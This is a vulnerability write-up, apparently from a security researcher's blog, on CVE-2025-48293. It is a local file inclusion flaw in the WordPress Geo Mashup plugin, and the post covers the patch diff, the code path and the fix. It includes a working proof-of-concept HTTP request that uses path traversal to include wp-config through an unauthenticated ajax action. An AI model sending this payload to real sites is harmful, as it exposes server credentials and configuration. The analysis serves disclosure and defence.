```yaml
---
title: CVE-2025-48293 Analysis & POC
description: Security Vulnerability in WordPress Geo Mashup Plugin.
date: 2025-10-13 19:00:00 +0700
categories: [CVE Analyst]
tags: [analyst, plugin, lfi]
images: ["app.png"]
featuredImage: "app.png"

lightgallery: true

toc:
  auto: false
---
```


<!--more-->

## CVE & Basic Info

The **Geo Mashup** plugin version **≤ 1.13.16** contains a **Local File Inclusion** vulnerability that allows an unauthenticated attacker to control the file parameter used in `include/require`, thereby injecting or reading local files on the server (for example configuration files containing credentials), leading to leakage of sensitive information and, in some configurations, potential code execution.

* **CVE ID**: [CVE-2025-48293](https://www.cve.org/CVERecord?id=CVE-2025-48293)
* **Vulnerability Type**: Local File Inclusion
* **Affected Versions**: <= 1.13.16
* **Patched Versions**: 1.13.17
* **CVSS severity**: High (9.8)
* **Required Privilege**: Unauthenticated
* **Product**: [WordPress Geo Mashup Plugin](https://wordpress.org/plugins/geo-mashup/)

## Requirements

* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/2025-08-21-wordpress-local-and-debugging/).
* **Plugin versions** - **Geo Mashup**: **1.13.16** (vulnerable) and **1.13.17** (patched).
* **Diff tool** - [**Meld**](https://meldmerge.org/) or any diff/comparison tool to inspect differences between the two versions.

## Analysis

### Patch diff

**Vulnerable code**:

```php {filename="geo-query.php v1.13.16" hl_lines=[2]}
public static function generate_object_html( ) {
    $template_base = ( isset( $_GET['template'] ) ) ? $_GET['template'] : '';
    // other logc
    load_template( GeoMashup::locate_template( $template_base ) );
}
```

`$template_base` is taken directly from `$_GET['template']` **without any checks/sanitization**.

The value is passed to `GeoMashup::locate_template()` and then used with [`load_template()`](https://developer.wordpress.org/reference/functions/load_template/) — an attacker can control the file path to be included.

**Patch**:

```php {filename="geo-query.php v1.13.17" hl_lines=[2]}
public static function generate_object_html( ) {
    $template_base = ( isset( $_GET['template'] ) ) ? sanitize_key($_GET['template']) : '';
    // other logic
    load_template( GeoMashup::locate_template( $template_base ) );
}
```

[`sanitize_key()`](https://developer.wordpress.org/reference/functions/sanitize_key/) is applied to `template` => removes unsafe characters, prevents `../`, `\`, and special characters, reducing the risk of **path traversal** and **LFI** from the `template` parameter.

### Vulnerable Code

We analyze the logic in `GeoMashup::locate_template()` to see how it affects `$template_base`

```php {filename="geo-mashup.php v1.13.16" hl_lines=[3,10,11,12]}
public static function locate_template( $template_base ) {
    $template = locate_template( array("geo-mashup-$template_base.php") );
 
    if ( empty( $template ) || !is_readable( $template ) ) {
        $template = path_join( GEO_MASHUP_DIR_PATH, "default-templates/$template_base.php" );
    }
    return $template;
}
```

`$template` is reassigned by calling `locate_template()` (from **template.php**) with the argument `geo-mashup-$template_base.php`

```php {filename="template.php v1.13.16" hl_lines=[]}
function locate_template( $template_names, $load = false, $load_once = true, $args = array() ) {
	global $wp_stylesheet_path, $wp_template_path;

	if ( ! isset( $wp_stylesheet_path ) || ! isset( $wp_template_path ) ) {
		wp_set_template_globals();
	}

	$is_child_theme = is_child_theme();

	$located = '';
	foreach ( (array) $template_names as $template_name ) {
		if ( ! $template_name ) {
			continue;
		}
		if ( file_exists( $wp_stylesheet_path . '/' . $template_name ) ) {
			$located = $wp_stylesheet_path . '/' . $template_name;
			break;
		} elseif ( $is_child_theme && file_exists( $wp_template_path . '/' . $template_name ) ) {
			$located = $wp_template_path . '/' . $template_name;
			break;
		} elseif ( file_exists( ABSPATH . WPINC . '/theme-compat/' . $template_name ) ) {
			$located = ABSPATH . WPINC . '/theme-compat/' . $template_name;
			break;
		}
	}

	if ( $load && '' !== $located ) {
		load_template( $located, $load_once, $args );
	}

	return $located;
}
```

The logic checks for the existence of files when concatenated with `$template_name`; if none exist it returns an empty string `''`.

{{< figure src="debug1.png" caption="File existence related logic" >}}

When an attacker sends `$_GET['template']` containing `../` the file will by default not exist, and `locate_template()` returns `''`.

Returning to `GeoMashup::locate_template()`, when `$template` is empty and not readable (`!is_readable($template)`) it is reassigned and returned.

```php
const string GEO_MASHUP_DIR_PATH = "/srv/www/wordpress/wp-content/plugins/geo-mashup"

GEO_MASHUP_DIR_PATH.default-templates/$template_base.php
```

👉 `GeoMashup::locate_template()` does not modify `$template_base` which we control, so we proceed to find a way to trigger this behavior.

```php {filename="geo-query.php v1.13.17" hl_lines=[4]}
if ( ( isset( $_GET['output'] ) and 'json' == $_GET['output'] ) or empty( $_GET['object_ids'] ) ) {
	GeoMashupQuery::generate_location_json( );
} else {
	GeoMashupQuery::generate_object_html( );
}
```

`generate_object_html()` is only called when `$_GET['output']` is not provided and `$_GET['object_ids']` is not empty.

**geo-query.php** containing the above logic is invoked in **geo-mashup.php**

{{< figure src="search1.png" caption="**geo-query.php** is called within **geo-mashup.php**" >}}

The `geo_query` function is the callback for an **Unauthenticated** action hook:

```php
add_action( 'wp_ajax_nopriv_geo_mashup_query', array( __CLASS__, 'geo_query') );
```

When accessing the endpoint `/wp-admin/admin-ajax.php` with `action=geo_mashup_query` the `geo_query` callback is executed.

## Exploit

### Proof of Concept (PoC)

1. Add code to `wp-config.php` for testing

```php
echo "Payload";
```

2. Send a **GET request** with an **LFI** payload

```http
GET /wp-admin/admin-ajax.php?action=geo_mashup_query&object_ids=2&template=../../../../wp-config HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: vi,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
X-PwnFox-Color: green
Priority: u=0, i
```

**Result**:

{{< figure src="result.png" caption="Successful LFI result" >}}

## Conclusion

CVE-2025-48293 is an LFI caused by using the `template` input without validation when concatenating into a fallback path, allowing path traversal (`..`) and inclusion of unintended files. It was fixed in **v1.13.17** by applying `sanitize_key()`.

## Key takeaways

* Do not use user input directly to build paths for includes.
* Use a **whitelist** or `sanitize_key()` + `realpath()` checks.

## References

[File Inclusion/Path traversal — Hacktrick](https://book.hacktricks.wiki/en/pentesting-web/file-inclusion/index.html?highlight=lfi#lfi--rfi-using-php-wrappers--protocols)

[ WordPress Geo Mashup Plugin <= 1.13.16 is vulnerable to Local File Inclusion ](https://patchstack.com/database/wordpress/plugin/geo-mashup/vulnerability/wordpress-geo-mashup-plugin-1-13-16-local-file-inclusion-vulnerability)

